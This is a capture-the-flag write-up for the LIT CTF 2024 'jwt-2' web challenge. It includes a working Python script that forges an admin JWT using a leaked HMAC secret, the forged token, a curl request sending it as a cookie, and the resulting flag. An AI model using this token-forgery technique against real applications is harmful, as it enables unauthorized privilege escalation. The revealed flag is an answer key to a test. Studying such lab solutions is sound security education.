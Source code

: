 # LIT CTF 2024: web/jwt-2
**Title:** web/jwt-2

**Description:** its like jwt-1 but this one is harder URL: [http://litctf.org:31777/](http://litctf.org:31777/).
**Files:** [index.ts](https://github.com/xtasy94/CTFW/blob/main/LIT%20CTF/jwt-2/Files/index.ts)
## Solution:
This is the sequel of the challenge [jwt-1](https://github.com/xtasy94/CTFW/blob/main/LIT%20CTF/jwt-1/jwt-1.md), the description hints at manipulating JWT tokens to gain access to a protected resource. Here’s how we approached the problem:

### Step 1: Analyze the JWT Structure:
The JWT token consists of three parts:

1. **Header**: Contains metadata about the token.
2. **Payload**: Contains the actual data or claims.
3. **Signature**: Used to verify the integrity of the token.

**Header:**
```json
{
  "alg": "HS256",
  "typ": "JWT"
}
```

**Payload:** To gain access, we need to include an `admin` field set to `true` in the payload.

**Signature:** The signature is created using HMAC SHA256 with the secret key `"xook"`, according to [index.ts](https://github.com/xtasy94/CTFW/blob/main/LIT%20CTF/jwt-2/Files/index.ts) provided with this challenge.

### Step 2: Generate the JWT Token:
We need to craft a JWT with administrative privileges. Here’s the [Python script](https://github.com/xtasy94/CTFW/blob/main/LIT%20CTF/jwt-2/Files/jwt.py) used to generate a valid JWT:

```python
import json
import base64
import hmac
import hashlib

jwt_secret = 'xook'

header = {
    'alg': 'HS256',
    'typ': 'JWT'
}
jwt_header = base64.urlsafe_b64encode(json.dumps(header).encode('utf-8')).decode('utf-8').rstrip('=')

payload = {
    'name': 'testuserBITSAT',
    'admin': True
}
jwt_payload = base64.urlsafe_b64encode(json.dumps(payload).encode('utf-8')).decode('utf-8').rstrip('=')

signature = hmac.new(jwt_secret.encode('utf-8'), f'{jwt_header}.{jwt_payload}'.encode('utf-8'), hashlib.sha256).digest()
jwt_signature = base64.urlsafe_b64encode(signature).decode('utf-8').rstrip('=')

token = f'{jwt_header}.{jwt_payload}.{jwt_signature}'

print('Generated JWT Token:', token)

print('Header:', jwt_header)
print('Payload:', jwt_payload)
print('Signature:', jwt_signature)
```

```
└─$ python3 jwt.py
Generated JWT Token: eyJhbGciOiAiSFMyNTYiLCAidHlwIjogIkpXVCJ9.eyJuYW1lIjogInRlc3R1c2VyQklUU0FUIiwgImFkbWluIjogdHJ1ZX0.vXlsW5vpjiI8nDkvhffewMY6XOXeTuiBRIB0CUhyz3Y
Header: eyJhbGciOiAiSFMyNTYiLCAidHlwIjogIkpXVCJ9
Payload: eyJuYW1lIjogInRlc3R1c2VyQklUU0FUIiwgImFkbWluIjogdHJ1ZX0
Signature: vXlsW5vpjiI8nDkvhffewMY6XOXeTuiBRIB0CUhyz3Y
```

### Step 3: Send the request with tampered JWT:
For this I used an online tool [Run Curl Commands Online (reqbin.com)](https://reqbin.com/curl) and sent the request:
```bash
curl "http://litctf.org:31777/flag" ^
  -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7" ^
  -H "Accept-Language: en-US,en;q=0.9,en-IN;q=0.8" ^
  -H "Connection: keep-alive" ^
  -H "Cookie: token=eyJhbGciOiAiSFMyNTYiLCAidHlwIjogIkpXVCJ9.eyJuYW1lIjogInRlc3R1c2VyQklUU0FUIiwgImFkbWluIjogdHJ1ZX0.vXlsW5vpjiI8nDkvhffewMY6XOXeTuiBRIB0CUhyz3Y" ^
  -H "Referer: http://litctf.org:31777/" ^
  -H "Upgrade-Insecure-Requests: 1" ^
  -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36 Edg/127.0.0.0" ^
  --insecure
```

And we get the flag as the response: `LITCTF{v3rifyed_thI3_Tlme_1re4DV9}`
